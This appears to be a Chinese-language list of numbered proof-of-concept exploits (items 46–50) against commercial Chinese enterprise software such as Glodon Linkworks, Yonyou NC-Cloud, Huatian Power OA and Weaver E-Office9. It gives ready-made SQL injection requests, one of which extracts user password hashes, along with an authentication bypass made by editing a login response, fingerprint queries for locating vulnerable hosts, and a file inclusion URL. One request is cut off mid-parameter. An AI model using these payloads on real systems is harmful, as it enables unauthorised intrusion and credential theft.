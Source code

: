 46、网御 ACM 上网行为管理系统bottomframe.cgi SQL 注入漏洞

POC:
/bottomframe.cgi?user_name=%27))%20union%20select%20md5(1)%23

47、广联达 Linkworks GetIMDictionarySQL 注入漏洞

POC:
POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary HTTP/1.1
Host:
Content-Type: application/x-www-form-urlencoded
key=1' UNION ALL SELECT top 1 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --

48、用友文件服务器认证绕过

资产搜索：
app="用友-NC-Cloud"   或者是app="用友-NC-Cloud" && server=="Apache-Coyote/1.1"

POST数据包修改返回包 false改成ture就可以绕过登陆

HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Date: Thu, 10 Aug 2023 20:38:25 GMT
Connection: close
Content-Length: 17

{"login":"false"}

49、华天动力oa SQL注入

访问
http://xxxx//report/reportJsp/showReport.jsp?raq=%2FJourTemp2.raq&reportParamsId=100xxx

然后抓包
POST /report/reportServlet?action=8 HTTP/1.1
Host: xxxx
Content-Length: 145
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://xxx/
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.183 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://xxxx/report/reportJsp/showReport.jsp?raq=%2FJourTemp2.raq&reportParamsId=100xxx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=D207AE96056400942620F09D34B8CDF3
Connection: close

year=*&userName=*&startDate=*&endDate=*&dutyRule=*&resultPage=%2FreportJsp%2FshowRepo

48、49漏洞来源于：https://mp.weixin.qq.com/s/hUig93-cSFtbioQpPSNZig
50、泛微 Weaver E-Office9 前台文件包含

http://URL/E-mobile/App/Init.php?weiApi=1&sessionkey=ee651bec023d0db0c233fcb562ec7673_admin&m=12344554_../../attachment/xxx.xls
